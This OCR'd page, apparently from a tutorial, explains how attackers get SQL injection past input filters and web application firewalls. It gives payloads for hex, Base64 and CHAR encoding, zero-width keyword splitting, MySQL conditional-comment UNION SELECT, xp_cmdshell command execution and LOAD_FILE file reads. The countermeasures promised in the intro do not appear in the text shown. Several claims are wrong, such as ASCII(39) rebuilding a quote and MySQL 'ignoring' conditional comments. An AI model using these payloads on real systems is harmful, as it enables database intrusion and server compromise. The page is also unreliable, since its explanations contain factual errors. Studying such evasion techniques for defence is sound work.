 ## Bypassing Input Sanitization and Firewall Protections  

Despite robust defenses like input sanitization and Web Application Firewalls (WAFs), attackers employ advanced evasion techniques to execute SQL injection. Below is a detailed breakdown of these methods, their implementation, and countermeasures:  

---

### **1. Obfuscation and Encoding**  
Attackers encode payloads to bypass filters that block keywords like `'`, `UNION`, or `SELECT`.  

#### **Hex/ASCII Encoding**  
Converts SQL syntax into hexadecimal or ASCII values, which are later decoded by the database.  
- **Example**:  
  ```sql  
  ' OR 1=1-- → Encoded as `0x27204F5220313D312D2D` (hex).  
  ```  
  - **Decoding**:  
    ```sql  
    CHAR(39) OR 1=1-- (reconstructs the single quote `'`).  
    ```  
- **ASCII Example**:  
  ```sql  
  ASCII(39) OR 1=1-- (ASCII 39 corresponds to `'`).  
  ```  

| **Encoding Method** | **Example**                     | **Decoding Function** |  
|----------------------|---------------------------------|-----------------------|  
| Hexadecimal          | `0x27204F52`                   | `UNHEX()`             |  
| ASCII                | `ASCII(39)`                    | `CHAR()`              |  
| Base64               | `JyBPUiAxPTEtLQ==` (decodes to `' OR 1=1--`) | `FROM_BASE64()` |  

#### **Unicode and Zero-Width Characters**  
Exploits non-standard characters to evade pattern matching:  
- **Curly Quotes**: `’` instead of `'`.  
- **Zero-Width Spaces**: `\u200B` inserted between keywords (e.g., `UNI\u200BON SELECT`).  

---

### **2. Alternative Syntax and Database-Specific Loopholes**  
Attackers leverage database-specific features to bypass detection:  

#### **Conditional Comments**  
MySQL ignores comments like `/*!version_number ... */`, allowing hidden keywords:  
```sql  
' /*!UNION*/ SELECT 1,2--  
```  

#### **Stored Procedures/Functions**  
Execute arbitrary code via database-specific commands:  
- **MSSQL**: `xp_cmdshell` for OS command execution.  
  ```sql  
  EXEC xp_cmdshell 'dir C:\';--  
  ```  
- **MySQL**: `LOAD_FILE()` to read local files.  
